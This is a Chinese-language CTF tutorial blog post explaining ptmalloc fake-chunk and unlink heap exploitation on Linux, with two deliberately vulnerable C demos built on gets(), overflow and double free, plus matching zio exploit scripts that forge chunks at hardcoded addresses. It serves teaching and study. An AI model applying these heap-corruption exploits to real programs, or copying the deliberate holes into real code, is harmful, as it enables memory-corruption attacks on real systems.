 ```yaml
---
layout:     post
title:      Linux下堆块伪造技术
subtitle:   pwn
date:       2017-08-11
author:     Ytala
header-img: img/post-bg-re-vs-ng2.jpg
catalog: true
tags:
    - Blog
---
```


> 正所谓前人栽树，后人乘凉。
> 
> 立志做pwn狗中web最好的
> 

借鉴下别人的文章，如有冒犯，还望多多包涵

# Linux下的堆块伪造
这是一个基本的堆利用技巧，很多堆利用的地方都会用到。比如double free。
这种利用方式的出现是由于unlink的check机制的出现。这里主要从堆溢出和double free两个角度谈一下。

## 原理
1.ptmalloc的相邻空块合并原则。
2.堆chunk本身的结构机制。

## 详解
堆chunk判断一个块是否为空仅仅依赖于相邻后块的**prev_size**和**最低flag位**。
如果在堆上构造合理的堆块结构，那么堆管理机制就会误以为我们的伪造的堆块是真正的空堆块。
当释放掉相邻的后块时（这个块是真的），就会触发空块合并。也就达成了堆块伪造的目的。

## 要求

```
1.有两个相邻的堆块
2.第一个堆块可溢出第二个
3.释放第二个堆，即可触发。
```
这种是最常见的利用，即有check的堆溢出利用。

或者

```
1.有一个已分配的堆
2.有一个指向堆上的可控指针
3.free参数可控
```
这种情况下，是在分配的一大块堆中强行构造出两块chunk。然后利用那个指向堆上的可控指针来实现free触发漏洞。
这其实是一种double free的利用方式，因为如果你分配了两块堆，然后把这两块堆都释放之后，这些内存会合并到top chunk中。当再次分配堆的时候，还是使用这些内存地址。

那么如果我们进行以下操作：


```
1.分配两个堆
2.释放掉这两个堆
3.分配一个可以包含住前面两个堆的大堆块
4.写入这个大堆块构造两个伪chunk
5.通过第2步中释放两个堆
```
这样对于初始的两个堆来说，就像是double free了，当然本质还是堆块伪造。
## 利用的效果
如果成功的使用了伪造堆，那么达到的效果是什么呢？首先，是不可能像unlink利用一样任意地址写了。
因为对于目前的ptmalloc来说，有如下check：
current->fd->bd!=current;
current->bd->fd!=current;
为了过掉这个检验我们会用一个指向堆块的全局指针的地址的一个偏移作为伪chunk的fd。
fd=ptr-12;
bd=ptr-8;
然后在断链的过程中，就会把**ptr**的值改成**&ptr-12**,感觉很鸡肋是吧？
毕竟费这么大力气只是把一个全局变量的值给改成了他的地址－0xC，但是这个东西确实是这么去利用的。
在CTF中会跟其他的漏洞或功能结合去使用。


## 两个演示的DEMO
为了具体的说明问题，这里写了两个demo演示效果。
### Demo1


```void *global[80];

void *global[80];

int main(void)
{
    void *p1,*p2;
    p1=malloc(200);
    p2=malloc(200);
    global[40]=p1;
    printf("before exploit:%x\n",global[40]);
    puts("read");//for debug
    gets(p1);//overflow
    free(p2);
    printf("after exploit:%x\n",global[40]);
    return 0;
}

```
这是对应于第一种堆溢出覆盖下一块堆的情况的，如果使用下面的exp就会发现global中malloc返回的地址已经变成了 global[40]本身的地址－0xC

```from zio import *
io=zio('./h1',timeout=9999)
#io.gdb_hint()
io.read_until('read')
sc=l32(0x0)+l32(0xc9)+l32(0x804A100-0xc)+l32(0x0804A100-0x8)+'a'*(200-16)+l32(0xc8)+l32(0xd0)
io.writeline(sc)
io.read()
```

### Demo2

```int *global[40];
int main(void)
{
  void *p1,*p2,*p3;
  p1=malloc(200);
  p2=malloc(200);
  global[20]=p1;
  free(p1);
  free(p2);
  p3=malloc(500);
  puts("get");//for debug
  gets(p3);
  free(p2);
  return;
}
```
这个Demo展示的是double free。可以看到对于p2指针来说确实是释放了两次。

```
from zio import *
io=zio('./h2',timeout=99999)
#io.gdb_hint()
io.read_until('get')
sc=l32(0x0)+l32(201)+l32(0x804a0b0-0xC)+l32(0x804a0b0-0x8)+'a'*(200-16)+l32(200)+l32(0x128)
io.writeline(sc)
io.read()
```
这个exp就可以实现利用，感觉这个exp的伪堆块构造要比上面Demo更复杂一些。这个exp我搞了好久，因为不知道为什么一直会触发free的check导致程序崩溃。后来查了一些资料终于明白了，必须要保证你分配的堆与你在其中构造的两个堆块的大小完全一致。
比方说我这里是malloc(500)，调试一下发现分配了504（鬼知道为什么），那么就是504-8-200=0x128，如果不跟分配的堆块边境符合的话就会触发check从而crash掉。


by:Ox9A82



